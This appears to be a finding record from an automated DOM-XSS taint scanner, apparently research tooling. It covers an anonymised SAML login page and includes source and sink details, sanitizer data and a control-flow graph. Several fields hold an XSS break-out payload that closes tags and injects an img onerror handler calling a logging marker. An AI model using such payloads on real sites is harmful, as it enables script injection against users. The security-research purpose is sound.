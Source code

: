 // Finding: 3bd715e7-36ad-47b6-ac60-9a58e8d654fb
// Finding.url: https://my.example87.com/#/login?type=samlsso_notification.do?RelayState=https://nutanix.ziftone.com/#/page/welcome&commonAuthCallerPath=/samlsso&forceAuth=false&passiveAuth=false&spEntityID=zift_production&tenantDomain=carbon.super&sessionDataKey=514f33d4-9c1f-4c17-a6d1-299d0517876b&relyingParty=zift_production&type=samlsso&sp=zift_production"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('157b26b290854727afa7db565ec0055d')><!--/*&isSaaSApp=false
// Finding.parentloc: https://my.example87.com/#/login?type=samlsso_notification.do?RelayState=https://nutanix.ziftone.com/#/page/welcome&commonAuthCallerPath=/samlsso&forceAuth=false&passiveAuth=false&spEntityID=zift_production&tenantDomain=carbon.super&sessionDataKey=514f33d4-9c1f-4c17-a6d1-299d0517876b&relyingParty=zift_production&type=samlsso&sp=zift_production"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('157b26b290854727afa7db565ec0055d')><!--/*&isSaaSApp=false
// Finding.domain: my.example87.com
// Finding.base_domain: example87.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 4
// Sanitizer.name: navigateToRoute
// Sanitizer.location: https://my.example87.com/assets/js/production.1619576660708.min.js - navigateToRoute:33:13510
// Finding.begin: 780
// Finding.end: 816
// Finding.original_uuid: 902f0185-035e-4430-9dc9-709530955134
// Finding.TwentyFiveMillionFlowsId: -1741746467
// Finding.script: https://my.example87.com/assets/js/production.1619576660708.min.js
// Finding.line: 2
// Exploit.uuid: 157b26b2-9085-4727-afa7-db565ec0055d
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: zift_production"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: zift_production"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 328
// Exploit.end_taint_url: 343
// Exploit.replace_begin_url: 328
// Exploit.replace_end_url: 343
// Exploit.replace_begin_param: 1702
// Exploit.replace_end_param: 1717
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -942238384
// DepGraph.sanitizer_hash: -942238384

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="regex_exec"];
n2 [shape=box, label="RegExp: /#(.*)$/"];
n3 [shape=box, label="Lit: 1"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="regex_match"];
n6 [shape=box, label="RegExp: /#(.*)$/"];
n7 [shape=box, label="Lit: 1"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /^[#\/]|\s+$/"];
n11 [shape=box, label="Lit: "];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /^[#\/]|\s+$/"];
n15 [shape=box, label="Lit: "];
n16 [shape=box, label="Var: x"];
n17 [shape=box, label="Var: x"];
n18 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n16 -> n9;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n17 -> n13;
n18 -> n17;
}